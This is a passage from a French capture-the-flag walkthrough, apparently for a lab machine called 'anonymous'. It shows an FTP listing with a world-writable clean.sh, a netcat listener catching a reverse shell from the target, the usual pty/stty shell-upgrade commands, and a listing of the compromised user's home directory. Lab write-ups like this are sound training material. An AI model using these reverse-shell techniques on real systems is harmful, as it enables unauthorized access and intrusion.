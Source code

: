 ```
ftp> ls
229 Entering Extended Passive Mode (|||56385|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          362 Mar 17 10:19 clean.sh
-rw-rw-r--    1 1000     1000         5848 Mar 17 10:19 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
```

Lancement de **netcat** pour recevoir le reverse Shell :

```bash
$ nc -lnvp 1337                     
listening on [any] 1337 ...
connect to [10.18.48.143] from (UNKNOWN) [10.10.239.226] 46560
bash: cannot set terminal process group (1760): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ id
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Nous avons un reverse shell, mais il n'est pas très fonctionnel.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
namelessone@anonymous:~$
```

```bash
namelessone@anonymous:~$ ^Z
[1]+  Stopped                 nc -lnvp 1337
```

> `^Z` : Ctrl + Z

```bash
$ stty raw -echo;fg
```

```bash
namelessone@anonymous:~$ export TERM=xterm
```

Maintenant nous avons un reverse shell fonctionnel.

```
namelessone@anonymous:~$ ls -la
total 60
drwxr-xr-x 6 namelessone namelessone 4096 May 14  2020 .
drwxr-xr-x 3 root        root        4096 May 11  2020 ..
lrwxrwxrwx 1 root        root           9 May 11  2020 .bash_history -> /dev/null
-rw-r--r-- 1 namelessone namelessone  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 namelessone namelessone 3771 Apr  4  2018 .bashrc
drwx------ 2 namelessone namelessone 4096 May 11  2020 .cache
drwx------ 3 namelessone namelessone 4096 May 11  2020 .gnupg
-rw------- 1 namelessone namelessone   36 May 12  2020 .lesshst
drwxrwxr-x 3 namelessone namelessone 4096 May 12  2020 .local
drwxr-xr-x 2 namelessone namelessone 4096 May 17  2020 pics
-rw-r--r-- 1 namelessone namelessone  807 Apr  4  2018 .profile
-rw-rw-r-- 1 namelessone namelessone   66 May 12  2020 .selected_editor
-rw-r--r-- 1 namelessone namelessone    0 May 12  2020 .sudo_as_admin_successful
-rw-r--r-- 1 namelessone namelessone   33 May 11  2020 user.txt
-rw------- 1 namelessone namelessone 7994 May 12  2020 .viminfo
-rw-rw-r-- 1 namelessone namelessone  215 May 13  2020 .wget-hsts
```
